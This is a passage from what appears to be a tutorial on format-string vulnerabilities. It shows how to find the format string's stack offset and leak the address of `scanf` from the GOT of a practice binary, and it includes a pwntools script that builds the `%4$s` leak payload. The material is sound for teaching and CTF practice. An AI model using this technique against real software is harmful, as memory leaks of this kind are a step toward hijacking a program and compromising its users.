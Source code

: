 From the location of `0x41414141`, it can be seen that the starting address of the formatted string is exactly the 5th parameter of the output function, but it is the 4th parameter of the formatted string. At this time, if you use `%4$s` to test, you will find that the program will crash. This is because when trying to parse the value corresponding to the formatted string as an address, the value cannot be parsed as a legal address, so the program crashes. It can also be seen during debugging in the figure below that the variable value `0x73243425` corresponding to the formatted string corresponding to the `0xff8567b0` position cannot be accessed by the modified program, so the program naturally crashes.

<div align=center><img src="./images/49.png"></div>

If we set an accessible address, for example `scanf@got`, the corresponding address of `scanf` will be output at this time.

<div align=center><img src="./images/50.png"></div>

Use `pwntools` to construct scripts for debugging:

```python
from pwn import *
sh = process('./leakmemory')
leakmemory = ELF('./leakmemory')
__isoc99_scanf_got = leakmemory.got['__isoc99_scanf']
print hex(__isoc99_scanf_got)
payload = p32(__isoc99_scanf_got) + '%4$s'
print payload
gdb.attach(sh)
sh.sendline(payload)
sh.recvuntil('%4$s\n')
print hex(u32(sh.recv()[4:8])) # remove the first bytes of __isoc99_scanf@got
sh.interactive()
```
